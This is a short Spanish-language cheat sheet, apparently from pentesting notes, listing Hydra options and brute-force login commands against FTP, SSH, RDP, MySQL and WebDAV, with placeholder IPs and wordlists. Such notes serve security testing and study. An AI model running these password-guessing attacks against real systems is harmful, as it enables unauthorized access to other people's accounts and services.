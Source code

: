 ```yaml
---
description: Herramienta para realizar ataques de fuerza bruta en diversos protocolos.
---
```


# Hydra

## Parámetros

* **-L**: Indica el archivo con la lista de usuarios.
* **-P**: Indica el archivo con la lista de contraseñas.
* **-l**: Especifica un usuario individual en lugar de una lista.

## Comandos

#### 1. FTP (File Transfer Protocol)

```bash
hydra -L [lista_usuarios] -P [lista_contraseñas] [IP] ftp
```

Realiza un ataque de fuerza bruta contra el protocolo FTP en la dirección IP especificada.

#### 2. SSH (Secure Shell)

```bash
hydra -L [lista_usuarios] -P [lista_contraseñas] [IP] ssh
```

Ejecuta un ataque de fuerza bruta contra el protocolo SSH en la IP indicada.

#### 3. RDP (Remote Desktop Protocol)

```bash
hydra -L [lista_usuarios] -P [lista_contraseñas] rdp://[IP] -s [puerto]
```

Lanza un ataque de fuerza bruta para el acceso remoto a través de RDP en la IP y puerto (opcional) especificados.

#### 4. MySQL

```bash
hydra -l [usuario] -P [lista_contraseñas] [IP] mysql
```

Ataque de fuerza bruta contra un usuario específico de MySQL en la dirección IP dada.

#### 5. WebDAV (HTTP GET)

```bash
hydra -l [usuario] -P [lista_contraseñas] [IP] http-get /webdav/
```

Realiza un ataque de fuerza bruta contra un usuario en un recurso web protegido por WebDAV, utilizando el método HTTP GET en la ruta indicada.

